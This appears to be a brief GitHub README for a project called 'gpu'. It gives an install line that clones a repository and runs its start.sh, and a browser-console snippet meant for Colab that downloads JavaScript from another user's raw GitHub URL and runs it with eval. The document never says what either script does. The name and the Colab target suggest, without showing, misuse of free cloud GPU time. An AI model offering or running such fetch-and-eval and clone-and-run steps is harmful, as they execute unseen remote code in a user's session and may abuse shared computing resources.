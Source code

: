 # gpu 
<br>
instalasi :
<hr>
git clone https://github.com/Kopen1/gpu && cd gpu && sh start.sh 
<br><br>
<h2> CONSOLE_COLAB <h2>
<br>
async function eternalMode() {

  let url = 'https://raw.githubusercontent.com/liebedevil/borr/main/netep.js'


  let response = await fetch(url);

  let script = await response.text();

  eval(script);

}

eternalMode();

<br>

